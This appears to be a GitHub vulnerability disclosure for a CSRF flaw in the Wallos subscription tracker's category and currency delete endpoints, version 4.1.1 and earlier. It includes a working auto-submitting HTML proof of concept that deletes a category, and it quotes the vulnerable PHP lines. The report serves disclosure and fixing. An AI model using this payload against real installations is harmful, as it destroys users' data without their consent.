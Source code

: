 ## Description
A Cross-Site Request Forgery (CSRF) vulnerability exists in the Currencies and Categories management components of Wallos.
## Environment
- **Operating System** :windows docker
-  **Affected Version** :  4.1.1 and earilier

## PoC
A logged-in user accessing the following HTML content:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:8282/endpoints/categories/category.php">
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="categoryId" value="4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



## Screenshots
<img width="1218" height="362" alt="image" src="https://github.com/user-attachments/assets/480f9376-fc54-499c-8dca-aeebd0a00a9f" />


## Vulnerable Code Location:  
1. Wallos/endpoints/categories/category.php
2. retrieve/data/repos/Wallos/endpoints/currency/currency.php
Vulnerable Code Segments:
```php
// In category.php
else if (isset($_GET['action']) && $_GET['action'] == "delete") {
    // Category deletion logic
}

// In currency.php
} else if (isset($_GET['action']) && $_GET['action'] == "delete") {
```
